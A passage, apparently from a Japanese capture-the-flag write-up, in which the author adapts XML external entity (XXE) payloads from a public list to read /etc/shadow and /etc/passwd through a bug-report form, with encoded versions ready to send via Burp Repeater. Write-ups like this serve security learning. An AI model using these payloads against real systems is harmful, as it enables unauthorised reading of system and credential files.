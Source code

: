 XXEを悪用するためのペイロードを適当に探す。この辺が使えそう。

> https://github.com/payloadbox/xxe-injection-payload-list

ファイルの読み込みに使えるペイロードがあるのでこれを改造する。

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
<firstName>John</firstName>
<lastName>&ent;</lastName>
</userInfo>
```

下記のようなPayloadを作成してBurpのRepeater機能で送信してみたが、/etc/shadowの中身は読み込めなかった。

```
[作成したPayload]

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ent;</reward>
</bugreport>

[URLエンコード+Base64エンコード]

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgcmVwbGFjZSBbPCFFTlRJVFkgZW50IFNZU1RFTSAiZmlsZTovLy9ldGMvc2hhZG93Ij4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPmZvbzwvdGl0bGU%2BCjxjd2U%2BYmFyPC9jd2U%2BCjxjdnNzPjEwPC9jdnNzPgo8cmV3YXJkPiZlbnQ7PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```

他にも適当に試すと/etc/passwdは読み込めた。脆弱性の悪用に成功してそう。

```
[作成したPayload]

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ent;</reward>
</bugreport>

[URLエンコード+Base64エンコード]

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgcmVwbGFjZSBbPCFFTlRJVFkgZW50IFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPmZvbzwvdGl0bGU%2BCjxjd2U%2BYmFyPC9jd2U%2BCjxjdnNzPjEwPC9jdnNzPgo8cmV3YXJkPiZlbnQ7PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```
